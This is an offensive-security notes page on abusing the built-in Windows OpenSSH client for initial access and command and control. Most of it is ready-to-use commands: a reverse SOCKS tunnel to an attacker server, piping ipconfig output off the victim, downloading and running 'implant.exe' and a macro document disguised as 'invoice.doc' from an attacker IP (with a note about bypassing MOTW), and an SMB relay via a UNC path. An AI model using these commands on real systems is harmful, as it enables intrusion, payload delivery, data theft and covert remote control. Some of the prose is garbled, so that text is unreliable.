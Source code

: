 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-foreign-land
  - living-off-the-land
  - windows
---
```

# Remote Clients

## SSH

Refer to this [[04 - Remote Port Forwarding|section]] for remote port forwarding to configure the user without any requirement for authentication.

### Reverse Tunneling SOCKS Proxy

Instead of dropping malware instead we'll use `proxychains` or `privoxy` with the SSH server (the attacker's server) as the command and control which is legitimate, safer, and more familiar performing things remotely. This is considered as a non-malware implant.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
%SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
```

In the SSH server we should see a listening port of the SOCKS Proxy.

```
$ ss -antpl
```

However, there is a limitation since it contains no limitation. To resolve this issue you must perform local enumeration to gather information of the compromised target that was established via SSH. Include a shell scripting file or a custom dropper containing commands to automate the process. It doesn't have to be all of them but the more the better. At least collect the IPv4 address.

```
ipconfig /all | C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
ipconfig /all | %SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
```

### Download File and Execute

Transfer file to the system.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:implant.exe %AppData%\Microsoft\Templates\implant.exe\. && %APPDATA%\Microsoft\Templates\implant.exe" <username>@<attacker_IP>
```

TODO: This can be used to transfer embedded macro document to bypass MOTW.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\invoice.doc\. && %APPDATA%\Microsoft\Templates\invoice.doc" <username>@<attacker_IP>
```

### SMB Relay

For SSH server it doesn't to be from an attacker side. It can a real one as long the UNC path is set in order to execute command to perform SMB relay attack.

```
C:\> ssh -i \\<attacker_IP>\key.pem root@<IP>
```

---
## References

### Backlinks

- [[SCP|File Transfer: SCP]]

### LOLBAS

- [LOLBAS: SSH](https://lolbas-project.github.io/lolbas/Binaries/Ssh/)

### Bitsadmin

- [BITSADMIN Blog: Living Off the Foreign Land](https://blog.bitsadmin.com/living-off-the-foreign-land-windows-as-offensive-platform)

### RedSiege

- [RedSiege: SSHishing - Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### JumpSec

- [JumpSec: SSH Tunnelling to Punch Through Corporate Firewalls - Updated take on one of the oldest LOLBINs](https://labs.jumpsec.com/ssh-tunnelling-to-punch-through-corporate-firewalls-updated-take-on-one-of-the-oldest-lolbins/)

- [JumpSec: Bring Your Own Trusted Binary (BYOTB) - BSides Edition](https://labs.jumpsec.com/bring-your-own-trusted-binary-byotb-bsides-edition/)